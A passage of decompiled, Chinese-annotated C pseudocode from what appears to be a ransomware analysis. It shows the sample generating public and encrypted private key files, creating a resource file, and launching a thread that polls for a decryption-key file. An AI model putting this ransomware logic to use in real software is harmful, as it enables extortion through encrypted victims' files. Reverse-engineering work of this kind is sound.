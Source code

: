 ```c
CloseHandle(hThread);  

return 0;  

}  

lpAddress = (char)operator new(0x28u);      // 申请一块内存空间  

v14 = 0;  

if ( lpAddress )  

v3 = InitializeCriSection(lpAddress);       // 初始化临界区  

else

v3 = 0;  

v14 = -1;  

if ( !v3 || !CreatePkyAndEky(v3, FileName, buff) )

// 创建00000000.pky和00000000.eky 一个是公钥 一个是加密后的私钥  

return 0;  

if ( !OpenResFile() || dword_1000DC70 ) // 打开00000000.res文件 

{  

DeleteFileA(FileName_0);  

memset(&RandomBytes, 0, 0x88u);  

dword_1000DC70 = 0;  

GetRandom((HCRYPTPROV)v3, &RandomBytes, 8u);// 获取0x8个字节的随机数  

}  

DestoryHandle(v3);  

((void (__thiscall )(char , signed int))v3)(v3, 1);//隐藏函数 用于释放临界区  

hThread_1 = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)CreateResFile, 0, 0, 0);

// 创建00000000.res文件  

if ( hThread_1 )  

CloseHandle(hThread_1);  

Sleep(100u);  

hThread_2 = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)CheckDky, 0, 0, 0);

// 每隔五秒检测是否存在774F34B5.dky这个文件 由于文件不存在 直接return  

if ( hThread_2 )  

CloseHandle(hThread_2);  

Sleep(100u);  
```